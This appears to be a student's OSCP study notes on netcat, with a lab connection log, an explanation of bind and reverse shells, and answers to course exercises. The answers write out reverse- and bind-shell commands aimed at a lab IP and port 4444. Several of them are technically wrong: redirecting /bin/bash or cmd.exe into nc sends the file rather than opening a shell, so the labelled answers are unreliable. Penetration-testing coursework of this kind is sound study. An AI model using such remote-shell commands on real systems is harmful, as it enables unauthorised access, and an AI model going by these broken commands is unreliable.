



# Tools

## netcat

`nc -nv 192.168.133.128 80`

```
~/codeplay/oscp  master ⇡1 !1  nc -nv 192.168.133.128 80                                                                                                                      ✔  7s   
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.133.128:80.
ls
HTTP/1.1 400 Bad Request
Date: Wed, 09 Mar 2022 17:05:08 GMT
Server: Apache/2.4.52 (Debian)
Content-Length: 308
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.52 (Debian) Server at hlkali.vuln.land Port 80</address>
</body></html>
```

`nc -nlvp 4444`


wget.exe can be pushed through netcat
/usr/share/windows-resources/binaries/wget.exe


For example, consider the cmd.exe executable. By redirecting stdin, stdout, and stderr to the
network, we can bind cmd.exe to a local port. Anyone connecting to this port will be presented with
a command prompt on the target computer.

Bind Shells have the listener running on the target and the attacker connects to the listener in order to gain remote access to the target system. In the reverse shell, the attacker has the listener running on his/her machine and the target connects to the attacker with a shell.

### 4.1.4.3 Exercises
(Reporting is not required for these exercises)
1. Implement a simple chat between your Kali machine and Windows system.
   no windows machine but it would be through nc


2. Use Netcat to create a:
a. Reverse shell from Kali to Windows.
`nc -nv 10.10.10.10 8080 < /bin/bash`

b. Reverse shell from Windows to Kali.
`nc -nv 10.10.10.10 8080 < cmd.exe`


c. Bind shell on Kali. Use your Windows system to connect to it.

`nc -nlvp 4444 < /bin/bash`


d. Bind shell on Windows. Use your Kali machine to connect to it.

`nc -nlvp 4444 < cmd.exe`


3. Transfer a file from your Kali machine to Windows and vice versa.



4. Conduct the exercises again with the firewall enabled on your Windows system. Adapt the
exercises as necessary to work around the firewall protection and understand what portions
of the exercise can no longer be completed successfully

okay if firewall blocks both incoming and outcoming that will be a problem.



